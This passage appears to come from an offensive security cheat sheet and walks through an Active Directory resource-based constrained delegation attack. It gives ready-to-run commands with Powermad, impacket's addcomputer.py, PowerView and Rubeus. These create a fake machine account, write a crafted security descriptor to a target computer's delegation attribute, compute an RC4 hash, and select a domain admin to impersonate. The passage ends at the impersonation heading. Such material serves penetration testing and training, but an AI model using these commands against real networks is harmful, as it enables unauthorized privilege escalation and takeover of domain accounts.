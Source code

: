 ````
- https://github.com/Kevin-Robertson/Powermad
- https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py
```
Import-Module Powermad.ps1 
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

python3 addcomputer.py -computer-name FAKE01 -computer-pass '123456' <DOMAIN>/<USER>:<PASS> -dc-ip <DC IP>
```

#### Get the object SID
- If already had a user with SPN use that user, otherwise use the computer you made!
```
Get-DomainComputer FAKE01
Get-DomainUser <USER>
```

#### Creata a new raw security descriptor
- Use the SID from previous command
``` 
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<SID>)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

#### Modify the target computer object
```
Get-DomainComputer <TARGET COMPUTER> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

#### Check if modification worked
```
Get-DomainComputer <TARGET COMPUTER> -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

#### Check if raw security descriptor is refering to the correct machine
```
$RawBytes = Get-DomainComputer <TARGET COMPUTER> -Properties 'msds-allowedtoactonbehalfofotheridentity' | Select-Object -ExpandProperty msds-allowedtoactonbehalfofotheridentity
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl
Get-DomainComputer <SID>
```

#### Calculate RC4 hash for the user/computer object
- Only if you made a computer or you dont know the hash of the user
```
.\Rubeus.exe hash /password:123456 /user:fake01 /domain:<DOMAIN>
```

#### Select user to impersonate
- Preferably a user that would be admin on the machine (Check BloodHound).
- User should not be part of "Protected Users group" or accounts with the "This account is sensitive and cannot be delegated" right
```
Get-DomainUser | Where-Object {!($_.memberof -match "Protected Users")} | Where-Object {$_.useraccountcontrol -notmatch "NOT_DELEGATED"}
```

#### Impersonate another user (For example DA)
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right
````